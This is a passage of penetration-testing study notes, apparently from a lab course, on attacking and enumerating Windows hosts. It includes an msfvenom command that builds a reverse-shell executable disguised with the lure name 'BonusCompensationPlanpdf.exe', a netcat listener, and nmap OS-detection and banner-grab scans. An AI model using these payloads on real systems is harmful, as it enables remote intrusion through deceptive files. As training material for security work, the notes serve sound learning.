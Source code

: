 After the payload is on the target system, it must be executed.

For the payload to be successfull we need a listener as well.

__NC Listener Connection__
```
sudo nc -lvnp 443
```
__Building A Stageless Payload (Windows)__
```
 msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```
here we choose .exe

# Infiltrating Windows

## Prominent Windows Exploits
![image](https://github.com/user-attachments/assets/b202e405-6dd2-4a75-8d99-4cc96536fe2b)
With these vulnerabilities in mind, Windows isn't going anywhere. We need to be proficient with identifying vulnerabilities, exploiting them, and moving around in Windows hosts and environments. An understanding of these concepts can help us secure our environments from attack as well. 

## Enumerating Windows & Fingerprinting Methods
To quickly check if a host is likely a Windows machine, look at the Time To Live (TTL) value in ICMP responses. Windows typically responds with a TTL of 128, though sometimes 32. TTL values may vary if you're not on the same network layer. Most hosts are less than 20 hops away, so TTL rarely drops enough to match other OS types. A TTL of 128 in a ping response is a good indicator of a Windows system.

```
ping 192.168.86.39
```
Another way we can validate if the host is Windows or not is to use our handy tool, NMAP. 

__Os Detection Scan__
```
sudo nmap -v -O 192.168.86.39
```
example, we will utilize the -O option with verbose output -v to initialize an OS Identification scan against our target $Target. If you run into issues and the scans turn up little results, attempt again with the -A and -Pn options. This will perform a different scan and may work.

To perform banner grabbing, we can use several different tools. Netcat, Nmap, and many others can perform the enumeration we need, but for this instance, we will look at a simple Nmap script called banner.nse. 

__Banner Grab to Enumerate Ports__ 
```
sudo nmap -v 192.168.86.39 --script banner.nse
```
## Bats, DLLs, & MSI Files, Oh My!
